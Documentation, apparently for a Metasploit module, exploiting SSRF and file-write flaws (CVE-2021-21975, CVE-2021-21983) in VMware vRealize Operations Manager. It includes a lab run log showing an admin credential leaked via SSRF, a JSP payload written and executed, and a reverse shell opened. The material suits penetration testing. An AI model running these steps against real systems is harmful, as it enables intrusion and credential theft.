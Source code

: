 ## Vulnerable Application

### Description

This module exploits a pre-auth SSRF ([CVE-2021-21975]) and post-auth
file write ([CVE-2021-21983]) in VMware vRealize Operations Manager to
leak admin creds and write/execute a JSP payload.

CVE-2021-21975 affects the `/casa/nodes/thumbprints` endpoint, and
CVE-2021-21983 affects the `/casa/private/config/slice/ha/certificate`
endpoint. Code execution occurs as the `admin` Unix user.

The following vRealize Operations Manager versions are vulnerable:

* 7.0.0
* 7.5.0
* 8.0.0, 8.0.1
* 8.1.0, 8.1.1
* 8.2.0
* 8.3.0

Version 8.3.0 is not exploitable for creds and is therefore not
supported by this module. Tested successfully against 8.0.1, 8.1.0,
8.1.1, and 8.2.0.

[CVE-2021-21975]: https://nvd.nist.gov/vuln/detail/CVE-2021-21975
[CVE-2021-21983]: https://nvd.nist.gov/vuln/detail/CVE-2021-21983

### Setup

Import an exploitable vRealize Operations Manager OVA, such as
[`vRealize-Operations-Manager-Appliance-8.0.1.15331180_OVF10.ova`], into
your desired hypervisor. Boot the virtual appliance, and it should be
exploitable out of the box once it's up.

[`vRealize-Operations-Manager-Appliance-8.0.1.15331180_OVF10.ova`]:
https://my.vmware.com/web/vmware/downloads/details?downloadGroup=VROPS-801&productId=940&rPId=40733

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`vRealize Operations Manager < 8.3.0`

## Scenarios

### vRealize Operations Manager 8.0.1

```
msf6 > use exploit/linux/http/vmware_vrops_mgr_ssrf_rce
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > options

Module options (exploit/linux/http/vmware_vrops_mgr_ssrf_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8443             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   vRealize Operations Manager < 8.3.0


msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set rhosts 192.168.123.185
rhosts => 192.168.123.185
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/vmware_vrops_mgr_ssrf_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Starting SSRF server...
[*] Using URL: https://0.0.0.0:8443/XtwOOPWn9SJ7
[*] Local IP: https://192.168.1.65:8443/XtwOOPWn9SJ7
[*] Executing automatic check (disable AutoCheck to override)
[*] Leaking admin creds via SSRF...
[*] 192.168.123.1:8443/XtwOOPWn9SJ7#
[*] 192.168.123.185 connected to SSRF server!
GET /XtwOOPWn9SJ7 HTTP/1.1
Accept: application/xml, application/json
Content-Type: application/json
Accept-Charset: big5, big5-hkscs, cesu-8, euc-jp, euc-kr, gb18030, gb2312, gbk, ibm-thai, ibm00858, ibm01140, ibm01141, ibm01142, ibm01143, ibm01144, ibm01145, ibm01146, ibm01147, ibm01148, ibm01149, ibm037, ibm1026, ibm1047, ibm273, ibm277, ibm278, ibm280, ibm284, ibm285, ibm290, ibm297, ibm420, ibm424, ibm437, ibm500, ibm775, ibm850, ibm852, ibm855, ibm857, ibm860, ibm861, ibm862, ibm863, ibm864, ibm865, ibm866, ibm868, ibm869, ibm870, ibm871, ibm918, iso-2022-cn, iso-2022-jp, iso-2022-jp-2, iso-2022-kr, iso-8859-1, iso-8859-13, iso-8859-15, iso-8859-2, iso-8859-3, iso-8859-4, iso-8859-5, iso-8859-6, iso-8859-7, iso-8859-8, iso-8859-9, jis_x0201, jis_x0212-1990, koi8-r, koi8-u, shift_jis, tis-620, us-ascii, utf-16, utf-16be, utf-16le, utf-32, utf-32be, utf-32le, utf-8, windows-1250, windows-1251, windows-1252, windows-1253, windows-1254, windows-1255, windows-1256, windows-1257, windows-1258, windows-31j, x-big5-hkscs-2001, x-big5-solaris, x-compound_text, x-euc-jp-linux, x-euc-tw, x-eucjp-open, x-ibm1006, x-ibm1025, x-ibm1046, x-ibm1097, x-ibm1098, x-ibm1112, x-ibm1122, x-ibm1123, x-ibm1124, x-ibm1166, x-ibm1364, x-ibm1381, x-ibm1383, x-ibm300, x-ibm33722, x-ibm737, x-ibm833, x-ibm834, x-ibm856, x-ibm874, x-ibm875, x-ibm921, x-ibm922, x-ibm930, x-ibm933, x-ibm935, x-ibm937, x-ibm939, x-ibm942, x-ibm942c, x-ibm943, x-ibm943c, x-ibm948, x-ibm949, x-ibm949c, x-ibm950, x-ibm964, x-ibm970, x-iscii91, x-iso-2022-cn-cns, x-iso-2022-cn-gb, x-iso-8859-11, x-jis0208, x-jisautodetect, x-johab, x-macarabic, x-maccentraleurope, x-maccroatian, x-maccyrillic, x-macdingbat, x-macgreek, x-machebrew, x-maciceland, x-macroman, x-macromania, x-macsymbol, x-macthai, x-macturkish, x-macukraine, x-ms932_0213, x-ms950-hkscs, x-ms950-hkscs-xp, x-mswin-936, x-pck, x-sjis_0213, x-utf-16le-bom, x-utf-32be-bom, x-utf-32le-bom, x-windows-50220, x-windows-50221, x-windows-874, x-windows-949, x-windows-950, x-windows-iso2022jp
X-VSCM-Request-Id: S30000FM
Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpLWGp3ZWlmZlBIMGNlM3o5RENRb2o3V1I=
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_212
Host: 192.168.123.1:8443
Connection: keep-alive


[+] Successfully leaked admin creds
[*] Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjpLWGp3ZWlmZlBIMGNlM3o5RENRb2o3V1I=
[+] The target is vulnerable.
[*] Writing JSP payload
[*] /usr/lib/vmware-casa/casa-webapp/webapps/casa/0DlEVqGWYr.jsp
[+] Successfully wrote JSP payload
[*] Executing JSP payload
[*] https://192.168.123.185/casa/0DlEVqGWYr.jsp
[+] Successfully executed JSP payload
[+] Deleted /usr/lib/vmware-casa/casa-webapp/webapps/casa/0DlEVqGWYr.jsp
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.185:59260) at 2021-04-11 12:19:21 -0500
[*] Server stopped.

id
uid=1000(admin) gid=1003(admin) groups=1003(admin),0(root),25(apache),28(wheel)
uname -a
Linux vRealizeClusterNode 4.19.69-1.ph3 #1-photon SMP Fri Sep 6 00:00:41 UTC 2019 x86_64 GNU/Linux
```
